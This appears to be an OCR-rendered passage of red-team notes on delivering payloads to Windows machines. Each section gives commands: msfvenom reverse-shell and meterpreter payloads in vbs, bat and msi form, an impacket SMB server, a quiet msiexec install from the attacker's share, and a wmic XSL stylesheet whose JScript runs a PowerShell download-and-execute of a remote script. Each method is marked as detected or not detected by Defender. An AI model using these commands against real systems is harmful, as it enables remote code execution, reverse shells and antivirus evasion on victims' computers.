 ```
msfvenom -p cmd/windows/reverse_powershell lhost=10.2.0.5 lport=4444 -f vbs > shell.vbs
```
```
**Detected by defender**

## PS-Bat

```bash
\\webdavserver\folder\batchfile.bat
```
```
Process performing network call: **svchost.exe**\
Payload written on disk: **WebDAV client local cache**

```bash
msfvenom -p cmd/windows/reverse_powershell lhost=10.2.0.5 lport=4444 > shell.bat
impacket-smbserver -smb2support kali `pwd
```
```
```bash
\\10.8.0.3\kali\shell.bat
```
```
**Detected by defender**

## **MSIExec**

Attacker

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.2.0.5 lport=1234 -f msi > shell.msi
python -m SimpleHTTPServer 80
```
```
Victim:

```
victim> msiexec /quiet /i \\10.2.0.5\kali\shell.msi
```
```
**Detected**

## **Wmic**

- [[https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/|From here]]

```bash
wmic os get /format:"https://webserver/payload.xsl"
```
```
Example xsl file [[https://gist.github.com/Arno0x/fa7eb036f6f45333be2d6d2fd075d6a7|from here]]:

```xml
<?xml version='1.0'?>
<stylesheet xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt" xmlns:user="placeholder" version="1.0">

    <ms:script implements-prefix="user" language="JScript">
        <![CDATA[
            var r = new ActiveXObject("WScript.Shell").Run("cmd.exe /c echo IEX(New-Object Net.WebClient).DownloadString('http://10.2.0.5/shell.ps1') | powershell -noprofile -");
        ]]>
    </ms:script>
</stylesheet>
```
```
**Not detected**
```